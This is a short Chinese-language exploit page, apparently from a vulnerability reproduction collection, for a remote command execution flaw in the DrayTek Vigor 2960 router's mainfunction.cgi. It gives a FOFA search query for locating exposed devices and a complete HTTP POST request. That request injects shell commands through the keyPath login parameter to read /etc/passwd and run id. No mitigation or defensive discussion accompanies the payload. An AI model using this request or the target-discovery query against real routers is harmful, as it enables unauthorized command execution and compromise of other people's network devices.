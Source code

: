 # Draytek Vigor 2960 路由器mainfunction远程命令执行漏洞

# 一、漏洞简介
DrayTek是中国台湾的一家网络设备制造商，其产品包括VPN路由器、管理型交换机、无线AP和管理系统等，并被中小型企业广泛使用。DrayTek路由器系统存在远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限。

# 二、影响版本
+ Draytek Vigor 2960 路由器

# 三、资产测绘
+ fofa`title="Vigor 2960"`
+ 特征

![1712337973165-ab3cdc42-6e45-43c7-9fb9-932163c6c669.png](./img/N3A3GtuyXXzMteX0/1712337973165-ab3cdc42-6e45-43c7-9fb9-932163c6c669-423929.png)

# 四、漏洞复现
```plain
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: 
Connection: close
Content-Length: 94
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fcat${IFS}/etc/passwd%26id%0A%27&loginUser=a&loginPwd=a
```

![1712337999670-1deeeb58-a1eb-4b2f-b5c7-9d53ccbe7d17.png](./img/N3A3GtuyXXzMteX0/1712337999670-1deeeb58-a1eb-4b2f-b5c7-9d53ccbe7d17-818968.png)



> 更新: 2024-04-16 16:55:03  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lgi97gptaomg6blr>